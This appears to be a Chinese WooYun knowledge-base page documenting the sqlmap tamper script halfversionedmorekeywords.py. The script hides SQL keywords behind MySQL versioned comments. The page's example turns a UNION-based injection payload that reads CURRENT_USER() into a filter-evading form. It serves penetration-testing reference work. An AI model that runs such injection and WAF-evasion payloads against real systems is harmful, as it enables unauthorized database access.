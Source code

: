 ## 脚本名：halfversionedmorekeywords.py

* * *

作用：关键字前加注释

```
Example: 

* Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa 

* Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa

```

Requirement:

*   MySQL < 5.1

Tested against:

*   MySQL 4.0.18, 5.0.22

收集于: http://www.91ri.org/7852.html http://www.91ri.org/7869.html http://www.91ri.org/7860.html

版权声明：未经授权禁止转载 [刘海哥](http://drops.wooyun.org/author/刘海哥 "由 刘海哥 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [sqlmap 用户手册](http://drops.wooyun.org/tips/143)
*   [说说 RCE 那些事儿](http://drops.wooyun.org/tools/3786)
*   [深入了解 SQL 注入绕过 waf 和过滤机制](http://drops.wooyun.org/tips/968)
*   [某 EXCEL 漏洞样本 shellcode 分析](http://drops.wooyun.org/papers/4339)
*   [tunna 工具使用实例](http://drops.wooyun.org/tools/650)
*   [Mysql Trigger](http://drops.wooyun.org/tips/3435)